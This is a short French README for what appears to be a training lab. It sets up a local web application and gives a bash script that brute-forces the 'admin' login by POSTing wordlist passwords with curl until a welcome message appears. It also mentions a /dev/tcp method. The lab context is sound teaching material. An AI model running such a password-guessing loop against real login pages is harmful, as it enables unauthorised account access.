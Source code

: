 # Péparation de l'environnement

## La base de données

Avec phpmyadmin, importer le fichier ```dbBotWeb.sql```.

## Les fichiers

Dans le dossier ```/var/www/html```, créer le dossier ```/Formation/Botweb/``` et y mettre dedans les fichiers nécessaires.


La présentation représente une méthode avec **```/dev/tcp/server/port```**
https://docs.google.com/presentation/d/1R-FvHCe-u803vxt09TQpg7vWNeEbOuZ3__2aY1DXk5M/pub?start=false&loop=false&delayms=3000#slide=id.g1fbdc71d17_2_155

# Méthod avec **```curl```**

```curl``` est une puissante commande qui permet de poster ou de consulter des données vers ou à partir d'un serveur web. https://en.wikipedia.org/wiki/CURL

## Programme bash
```bash
#!/bin/bash

user="admin"
#Main
while read pass
do
  echo "Testing $pass"
  response=$(curl -s -X POST 'http://localhost/Formation/BotWeb/login.php' \
              --data-urlencode "login=${user}" --data-urlencode "mp=${pass}")
  if [[ $response =~ ^.*Bienvenue[[:space:]]admin.*$ ]]
  then
    echo "Bingo: Mot de passe trouvé ($pass)"
    exit
  fi
done < $1
```
